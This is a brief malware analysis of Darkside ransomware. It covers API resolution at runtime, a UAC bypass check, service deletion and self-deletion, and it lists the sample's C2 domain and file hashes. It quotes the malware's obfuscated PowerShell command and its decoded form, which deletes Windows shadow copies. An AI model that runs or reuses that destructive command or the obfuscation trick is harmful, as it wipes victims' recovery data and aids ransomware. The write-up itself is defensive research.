




# Quick analysis of Darkside ransomware

## Table of contents
- Overview
- Dynamic API importing
- UAC Bypass
- Service enumeration and deletion
- Powershell
- Network

## Overview
Darkside is a piece of ransomware that has gotten a lot of media attention lately.\
This analysis is not meant to be a full analysis by any means, it simply focuses on a couple specific features and parts of Darkside.


## Dynamic API importing
In an attempt to make static analysis harder, Darkside resolves API functions needed, at runtime.\
This is done by first decrypting a string (which can be either a DLL name or a function) from an array containing all the encrypted strings.
The array is structured in such a way, it will load the DLL before loading the functions


\


The decryption process consists of a simple loop with some byte swapping and an XOR.\


There is a couple ways to decrypt the imports, i choose to just take a quick look in a debugger.\
In this example, Darkside first loads kernel32, then starts calling GetProcAddress on the functions needed, until it has loaded all of them.\
\
(The code for calling GetProcAddress)

Calling LoadLibrary on kernel32:\


Then calling GetProcAddress on the needed functions:\
\
\
\
--snip--\


## UAC Bypass
Darkside will try to perform a UAC bypass using ICMLuaUtil, if the configuration is set to perform a UAC bypass.\
Before performing the bypass, Darkside checks the user's token, to verify the token has subauthority values of DOMAIN\_ALIAS\_RID\_ADMINS and SECURITY\_BUILTIN\_DOMAIN\_RID.

Getting a handle to the token, and querying information.\


Checking the SIDS\


DOMAIN\_ALIAS\_RID\_ADMINS == 544 (220 in hex)\
SECURITY\_BUILTIN\_DOMAIN\_RID == 32(20 in hex)


Here we see Darkside attempt the UAC bypass.


## Service enumeration and deletion

Darkside importing functions related to services:\


Darkside will enumerate over all services, and kill / delete any that are specified in the configuration

## Powershell
Setting a breakpoint on CreateProcessW allows us to see the decrypted Powershell command.\


Deleting shadow copies:
```powershell
powershell -ep bypass -c \"(0..61)|%{$s+=[char][byte]('0x'+'4765742D576D694F626A6563742057696E33325F536861646F77636F7079207C20466F72456163682D4F626A656374207B245F2E44656C65746528293B7D20'.Substring(2*$_,2))};iex $s\
```
Decodes to:
```powershell
Get-WmiObject Win32_Shadowcopy | ForEach-Object {$_.Delete();}G
```


## Self destruct
Once the malware is done, it deletes itself from disk.\
It uses a combination of GetModuleFileNameW, GetShortPathNameW and the environment variable ComSpec to get the path, and then ShellExecuteW to run the commannd.
```
CMD.EXE /C DEL /F /Q short_malware_path >> NUL
```


## Networking
Darkside attempts to send a POST request with encrypted data to its C2
\


## IOCs
C2: securebestapp20.com\
MD5: 9D418ECC0F3BF45029263B0944236884\
SHA256: 151FBD6C299E734F7853497BD083ABFA29F8C186A9DB31DBE330ACE2D35660D5
